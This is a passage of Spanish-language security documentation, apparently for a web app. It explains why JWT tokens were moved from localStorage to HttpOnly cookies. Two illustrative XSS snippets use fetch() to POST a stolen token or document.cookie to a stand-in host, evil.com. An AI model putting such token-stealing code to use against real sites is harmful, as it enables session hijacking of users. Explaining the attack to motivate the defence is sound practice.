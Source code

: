 ```
   b) Si no, busca req.headers['authorization']
   c) Verifica el token que encontró
   d) Continúa con el request

8. Logout:
   POST /api/auth/logout
   → Backend: res.clearCookie('authToken')
   → Frontend: localStorage.removeItem('token')
```

---

## 🛡️ Comparación de Seguridad

### Antes: Tokens en localStorage

```javascript
// ❌ VULNERABLE
localStorage.setItem('token', jwtToken);

// Atacante con XSS puede hacer:
const stolen = localStorage.getItem('token');
fetch('https://evil.com/steal', {
  method: 'POST',
  body: stolen
});
```

**Riesgo:** Si hay cualquier vulnerabilidad XSS (comentario sin sanitizar, dependencia comprometida, etc.), el atacante puede robar **todos** los tokens de **todos** los usuarios.

### Después: Cookies HttpOnly

```javascript
// ✅ SEGURO
// El backend ya envió la cookie con HttpOnly
// No necesitamos hacer nada en JavaScript

// Atacante con XSS intenta:
const stolen = document.cookie; // ❌ authToken NO aparece
const stolen2 = localStorage.getItem('token'); // ⚠️ Aún existe por compatibilidad

fetch('https://evil.com/steal', {
  method: 'POST',
  body: stolen
}); // ❌ No puede robar el token de la cookie HttpOnly
```

**Protección:** Incluso con XSS, el atacante **NO puede leer** la cookie HttpOnly. El token está protegido.

---
